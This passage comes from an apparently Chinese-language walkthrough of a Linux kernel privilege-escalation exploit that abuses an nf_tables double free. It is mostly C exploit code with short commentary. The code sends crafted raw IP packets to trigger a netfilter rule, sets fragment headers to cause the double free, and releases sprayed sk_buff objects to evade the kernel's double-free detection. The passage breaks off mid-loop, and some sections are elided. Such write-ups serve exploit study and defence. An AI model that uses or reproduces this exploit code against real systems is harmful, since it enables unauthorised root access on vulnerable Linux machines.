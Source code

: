 ```c
	((struct ip*)intermed_buf)->ip_sum = 0;
	((struct ip*)intermed_buf)->ip_sum = ip_finish_sum(ip_checksum(intermed_buf, ip_buflen, 0));

	PRINTF_VERBOSE("[*] sending IP packet (%ld bytes)...\n", ip_buflen);

	sendto_noconn(&dst_addr, intermed_buf, ip_buflen, sendto_ipv4_ip_sockfd);
}
```

发送原始IP数据包，并**触发之前设置的 `nf_tables` rule**（满足两个条件就会触发，包内容为`\x41` 且 协议号`protocol`字段为70）：

```c
static char intermed_buf[1 << 19];

static void send_ipv4_ip_hdr_chr(size_t dfsize, struct ip *ip_header, char chr)
{
	memset(intermed_buf, chr, dfsize);
	send_ipv4_ip_hdr(intermed_buf, dfsize, ip_header);
}

static void trigger_double_free_hdr(size_t dfsize, struct ip *ip_header)
{
	printf("[*] sending double free buffer packet...\n");
	send_ipv4_ip_hdr_chr(dfsize, ip_header, '\x41');
}

static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ... (skb spray)

// 1-2. 1st Double-Free skb （SOCK_RAW ip包，避免二次释放时崩溃），触发nftables rule释放skb
	df_ip_header.ip_id = 0x1337;
	df_ip_header.ip_len = sizeof(struct ip)*2 + 32768 + 24;
	df_ip_header.ip_off = ntohs((0 >> 3) | 0x2000);  // IP_MF=0x2000 分片第1个包 wait for other fragments. 8 >> 3 to make it wait or so?
	trigger_double_free_hdr(32768 + 8, &df_ip_header);

    // ... (rest of the exploit)
}
```

##### （3）绕过double-free检查

**目的**：通过释放之前分配的UDP数据包（`sk_buff`对象），来避免Double-Free的检测并提高exploit的稳定性。

```c
// recv_ipv4_udp() —— 接收UDP数据包
static char intermed_buf[1 << 19]; // simply pre-allocate intermediate buffers

static int sendto_ipv4_udp_server_sockfd;

void recv_ipv4_udp(int content_len)
{
    PRINTF_VERBOSE("[*] doing udp recv...\n");
    recv(sendto_ipv4_udp_server_sockfd, intermed_buf, content_len, 0);

	PRINTF_VERBOSE("[*] udp packet preview: %02hhx\n", intermed_buf[0]);
}
// privesc_flh_bypass_no_time() —— 释放之前堆喷的所有sk_buff对象(udp包)
static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ... (trigger doublefree)

// 1-3. 释放170个skb到freelist，避免Double-Free检测导致崩溃
	for (int i=0; i < CONFIG_SKB_SPRAY_AMOUNT; i++)
```